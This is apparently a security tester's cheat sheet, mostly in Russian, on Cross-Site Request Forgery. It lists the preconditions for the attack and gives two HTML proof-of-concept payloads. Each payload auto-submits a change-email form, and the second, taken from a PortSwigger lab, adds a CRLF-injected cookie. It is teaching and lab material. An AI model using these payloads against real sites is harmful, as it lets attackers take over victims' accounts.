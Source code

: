 # CSRF

## Description

Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated.

Необходимые условия возникновения CSRF атаки (если этого нет, можно даже не тестировать эту уязвимость):

* Интересное действие для CSRF атаки (любой модифицирующий запрос Web 1.0 (например, модифицирующий GET (чего кстати быть не должно) ))
* Cookie based сессия (или токены/сертификаты, которые доставляются приложением автоматически)
* Никаких параметров в запросе, которые нельзя предугадать

## Attack Examples

### Общий

Пример кейса с атакой CSRF: есть сайт с возможностью добавления почты. делаем запрос на добавление почты с другого сайта -> CSRF (токен может быть встроен в страницу, но не проверяться на стороне сервера)

Пример нагрузки:

```markup
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://vulnarable-site.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@email.com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>

```

Другой пример из задания с [PortSwigger Web Academy](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)

```markup
<!DOCTYPE html>
<html>
    <head>
        <title>CSRF Exploit via form</title>
    </head>
    <body>
        <div>Test</div>
        <!-- Inject csrfKey Header -->
        <img src="https://server.net/?search=test%0D%0ASet-Cookie:%20csrfKey=PENWcyjyCcXvvIuUyZF9c8ruxJvKywzW" onerror="document.forms[0].submit()">
        <!-- Submit Form -->
        <form method="POST" action="https://server.net/change-email">
            <input type="hidden" name="email" value="carlos@carlos-montoya.net">
            <input type="hidden" name="csrf" value="vYD0yIuvFYpOnh54szpuhVWA2IFqqnAJ">
        </form>
    </body>
</html>
```
